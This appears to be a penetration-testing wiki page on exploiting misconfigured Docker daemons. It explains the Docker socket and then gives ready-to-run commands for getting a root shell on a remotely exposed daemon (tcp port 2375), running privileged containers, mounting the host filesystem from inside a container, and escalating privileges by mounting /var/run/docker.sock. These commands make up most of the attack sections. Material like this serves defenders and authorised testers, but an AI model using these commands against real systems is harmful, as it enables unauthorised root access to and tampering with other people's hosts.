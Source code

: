 ```yaml
---
title: Docker
description: Tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application
published: true
date: 2021-01-21T04:37:56.706Z
tags: docker, exploit, privilege-escalation, miscofiguration
editor: markdown
dateCreated: 2021-01-21T04:37:56.706Z
---
```


# Docker Exploitation

Docker Client Documentation: https://docs.docker.com

## Intent

This page will discuss different tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application  

## Background

A virtual machine: This is a machine within a machine. VirtualBox, VMware, HyperV and other platforms are used to make a machine within a machine. Hard drives, operating systems, ram allocations and all.

A container: This shares the kernel of the operating system to run basically alongside of the host processes. i.e., ‘Docker run a webserver but don’t allocate 20 gbs of space and just pipe the logs from the server into my log directory in my home directory’.

### Docker Socket Vulnerability

When you’re installing Docker you’re actually installing a daemon socket onto your system that talks to the kernel over a tcp:// call. By default, this is setup with either ports 2375 (unencrypted) or 2376 (tls encrypted traffic). This is otherwise known as the docker socket. This socket handles all the API requests that a Docker client makes to the machine. For example, it will send to your internal socket the command `docker ps -a` and show you all of the running containers and subsequent information. At this point this is only going to be accessible to the local machine.

So, let’s say a web developer Bob decides that he want’s to run his applications in a cloud environment and have everything running on docker. Well, you could just ssh into the box install docker and install the apps to run in their own containers. But to streamline product releases he decides to expose the docker daemon to the internet so he can run commands on it from his home office. (docker -H tcp://<some IP>:2375 …)  This is where the vulnerability is…Tenable calls it ‘Docker Daemon Publicly Accessible’ (or something like that). I call it opening a shell up to the internet for anyone to connect to as root…Let’s break it down.

Figure 1:

Running a container on a local machine:

`docker run -it ubuntu:latest`

Running a container with elevated privileges on your local machine:

`docker run -it –privileged ubuntu:latest`

Running a container on someone else’s machine with elevated privileges:

`docker -H <someone else’s IP>:<port> run -it –privileged ubuntu:latest`

There it is…that is the vulnerability. A gross misconfiguration of the Docker daemon that exposes it to the internet (or intranet of a company) if put into a cloud environment or allowed egress. Also with the  `--privileged` flag you’re given root access to the container which can be used in a plethora of privilege escalation attacks.

## Exposed Docker Socket exploitation


### Getting a shell

```
docker run -H tcp://<some_ip>:<port> -it --entrypoint="/bin/sh" alpine
```
Simply creates a container onto a host exposing the docker daemon over TCP.

### Getting a privileged shell


```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```
Add `--privileged` tag to the above script to allow for all capabilities to be enabled.

A list of which can be found here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities

### Mount Host File System To Containers

*** !!! WARNING !!! If you do not know what you are doing you can cause damage to the host machine. Use Caution! ***  


First run a privileged container running alpine.

**Remote:**
```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```

**Local:**
```
docker run -it --privileged --entrypoint="/bin/sh" alpine
```

Next you'll be greeted with the shell that's running in alpine that is running as the `root (#)` user.

**Create a folder to mount host file system**
```
# mkdir /media/host-mnt
```

**Check for drive names**
```
# df -a
```

*Examples: /dev/sda1, /dev/nvme0, /dev/hdd0*

**Mount the Host FS**

```
# mount -a /dev/<drive> /media/host-mnt && cd /media/host-mnt && ls -lash
```


This should (pardoning any errors with mount or resources being busy) give you read write access to the host's filesystem.

### Docker container within Docker running Docker

Docker Hub Src: https://hub.docker.com/_/docker

Recently Docker released an image on dockerhub that is Docker running itself.

(As weird as that sounds...)

This leads to an interesting privesc vulnerability.

Say you're on a box but don't have access to root and see that you can create unpriviledged containers. (Research this...)

You can create your own docker daemon install that runs on the same socket as the host.

```
$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock docker:latest
```

This opens up a docker container that has docker installed that can create images using the same docker daemon (or socket if exploiting remote).

Once you create the container you should be running as root and can create privileged containers from within an **unpriviledged** container. (idk why people think this is okay.)

```
# docker run -it --privileged alpine
```

Now you have a root shell running in a container that has all of the capabilities enabled as referenced here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
